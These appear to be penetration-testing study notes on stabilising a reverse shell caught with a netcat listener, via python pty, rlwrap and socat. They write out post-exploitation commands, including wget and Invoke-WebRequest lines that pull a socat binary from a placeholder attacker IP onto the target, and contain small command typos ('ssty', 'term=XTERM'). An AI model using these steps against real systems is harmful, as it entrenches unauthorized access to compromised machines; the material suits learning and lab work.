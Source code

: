 # Stablization Techniques

## Technique 1: python

- use `python -c 'import pty;pty.spawn("/bin/bash")'`, this will invoke a featured bash shell.
- this will make the shell look prettier, but still won't be able to use auto-complete or up/down arrows etc.,
- `export TERM=xterm` this will give access to term commands such as `clear`
- Finally, we will background the shell using Cntrl + Z. 
- We use `ssty raw -echo; fg`. this turns off our own terminal's echo (which gives us access to tab autocompletes, the arrow keys and Ctrl+C to kill the processes). It then foregrounds the shell, thus completing the process.

```
sudo nc -lnvp 443
[+] connection obtained...

python3 -c 'import pty;pty.spawn("/bin/bash")'
shell@target_machine$ export term=XTERM
shell@target_machine$
shell@target_machine$ Cntrl + Z (press here)
[1]+ Stopped       sudo nc -lnvp 443
stty raw -echo;fg

shell@target_machine$ whoami
shell

```
- You can type `reset` and press enter if shell dies.

## Technique 2:rlwrap

- rlwrap is a program which gives access to history, tab autocompletion and arrow keys immediately upon  receiving a shell.
- Now you have to prepend `nc -lnvp <port>` with rlwrap
- this gives a fully featured shell. - `rlwrap nc -lnvp <port>`
- this technique is particularly useful with windows shells otherwise it becomes very difficult.
- if its a linux target, it the same as shown above in step 3.
  - background the shell with Cntrl+Z
  - `stty raw -echo` - stablize the shell
  - `fg` - foreground the shell & enter it.

## Technique 3: Socat

- first use netcat then socat.
- this is limited to linux targets only.
- To accomplish this method of stablization, we need to first transfer a `socat static complied binary`(a version of the program compiled to have no dependencies)up to the target machine.
- a typical way to achieve this would be to start a webserver on the attacking machine, where this socat binary is present.(`sudo python -m http.server 80`).
- on the target machine, use the netcat shell to download the file. On linux this will be accomplished with curl or wget (`wget <Attacker_machine_ip>:80/socat -O /tmp/socat`)
- for the sake of completeness, on a windows environment, use `Invoke-WebRequest` or `webrequest` system depending on the version of powershell installed.
`Invoke-WebRequest -uri <LOCAL_IP>/socat.exe -outfile C:\\windows\temp\socat.exe`

with any of the above techniques it is useful to change the size of your terminal.
`ssty -a` to check the defaults on your terminal.

And you can use `stty rows <number>` and `stty cols <number>`. this can help you set the terminal size for opening text files so that editing can be accurate and efficient.

 


